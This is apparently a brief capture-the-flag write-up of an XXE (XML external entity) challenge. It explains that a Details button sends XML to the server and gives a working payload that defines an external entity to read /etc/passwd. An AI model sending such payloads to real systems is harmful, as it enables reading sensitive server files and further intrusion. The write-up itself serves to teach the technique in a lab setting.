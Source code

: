 ![image](https://github.com/user-attachments/assets/b8ef7a11-09a0-49cf-abb4-31e008685eaf)


This challenge is based on XXE (XML injection). 
![image](https://github.com/user-attachments/assets/5c77bbf1-9692-4a06-99b4-929d8aa4d15e)

Everytime we click on Details button, a post request with XML code is sent to the server.

![image](https://github.com/user-attachments/assets/28413796-69a5-4929-8b79-94a1d84f51e3)


All we have to do is write a XXE payload to print the /etc/passwd file.

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>


![image](https://github.com/user-attachments/assets/ec47b7b4-f128-48d9-8ac8-543e333fa152)
